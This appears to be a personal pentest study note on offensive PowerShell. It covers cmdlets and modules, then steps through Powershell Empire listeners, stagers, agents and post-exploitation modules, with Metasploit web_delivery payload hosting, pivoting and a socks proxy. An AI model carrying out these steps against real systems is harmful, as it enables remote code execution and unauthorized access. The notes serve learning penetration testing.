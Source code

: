 # Powershell

**Why powershell?**
- Many orgs aren't actively hunting powershell activity. Since it native for Windows
- Widely support and have great feature.
    - Able to call .Net and Windows APIs
    - Can call dll functions within powershell
    - Many tools related to penetration test

[Living off the land](https://www.kiteworks.com/risk-compliance-glossary/living-off-the-land-attacks/)

[Powersploit](https://github.com/PowerShellMafia/PowerSploit) post expliot powershell framework

CmdLets: Light-weight powershell scipt that perform a single function:
    - Instances of .Net class `Cmdlet Base Class`
    - Typically written in a "Verb-Noun` file name format
        - EX: `Get-Help`, `Invoke-Command`
    - We can create a custome cmdlet by our own
    - Output in pileline
        - Eg: `Get-Process | Sort-Object -Unique | Select-Object ProcessName`

Helpful cmdlet:
    - Get-Process
    - Get-ChildItem
    - Get-WmiObject
    - Get-Service

Modules: Set of powershell function group together (Like lib)
    - `.psm1` File extension
    - Type:
        - Script module
        - Binary module
        - Manifest module
        - Dynamic module (Create dynamic by script when use `New-Module` command)
    - `Get-Module -ListAvailble`
    - `Import-Module`

Objects: All data on powershell is a object, it have properties and method attach to it
- Create new object: `New-Object`
    - Eg: `$webclient = New-Object System.Net.Webclient`
- Search for object `Search-Object`

---

## Powershell emprire

- Using smbexec.py script
    - `smbexec.py <user>:<password>@<tartget>`
- Setup server and client to run powershell emprire
- Setup listener `userlistener http` http listener
    - Setup host and port `set Host <ip>` `set Port <80>`
    - `execute` (Like `run` or `exploit` in msf)
    - `listeners` to list the listerner
- `usestager/multi/launcher` To generate payload
    - `set Listener http` set listerner for this module
    - It generate powershell command to run on target
    - Use `agents` to list the agents (Agent ~ sessions in msf)
- Use `interact <listener_id>`
- `usemodule/powershell/situaional ..../host/computerdetails` ~ Post exploit enum 
    - `execute`
- `usemodule powershell/situa......./network/portscan` Portscan module
    - set Host and run

To Exploit:
- We can setup: `web_delivery` with msf -> Return payload and URL host the payload
- Then `usemodule powershell/code_execution/invoke metasploitpayload`
    - `set URL <metasploit_web_delivery_server>` -> `execute`
- Then we can use `multi/manage/autoroute` to pivoting
- We can use module auxiliary `socks_proxy` to able to access via browers
    - set `SVRHOST` and run
    - Open brower and setup proxy (Manual proxy, Host ip, port 1080)

---

**Stalkiller**: GUI for Powershell-Empire
- Need to setup Powershll-Empire server and client first
- Simple flow: Create listerner -> Stager -> Ship it and run -> Agents created
- In stalkiller, agents provide GUI for file system, Interact shell, metadata, tasks
    - All actions will have UI component for it
    - We can `execute module` for post module exploit

